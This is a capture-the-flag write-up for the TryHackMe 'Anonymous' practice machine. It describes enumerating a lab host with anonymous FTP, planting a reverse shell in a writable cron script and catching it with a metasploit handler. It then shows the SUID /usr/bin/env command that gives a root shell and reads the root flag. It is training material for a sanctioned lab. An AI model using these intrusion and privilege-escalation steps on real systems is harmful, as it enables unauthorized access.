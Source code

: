 # Anonymous
[TryHackMe room link](https://tryhackme.com/room/anonymous)

# Informations about the room 

> Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

# Open ports

21 vsFTPd 3.0.3 anonymous login

22 OpenSSH 7.6p1

139 samba

445 samba

# Enumeration

Since we have anonymous access enabled in the ftp server we need to take a look at it:

There is a hidden directory called `/scripts`

Inside there are 3 files:

`clean.sh`

```bash
!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`

`to_do.txt`


We can try to mount the ftp share to our machine

`curlftpfs anonymous@10.10.27.64 mount`

We have write access to the script

Since it's probably inside a cronjob we can modify it by adding a reverse shell

Netcat for some reason does not work properly, it drops the shell almost instantly

So i tried to use the metasploit handler

`use exploit/multi/handler`

Set the `LHOST` and `LPORT`

This time the shell it's stable

# Privilege escalation

After enumerating linpeas found a [SUID in /usr/bin/env](https://gtfobins.github.io/gtfobins/env/)

`-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env`

```console
/usr/bin/env /bin/sh -p
# id
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# cat /root/root.txt
cat /root/root.txt
REDACTED
```

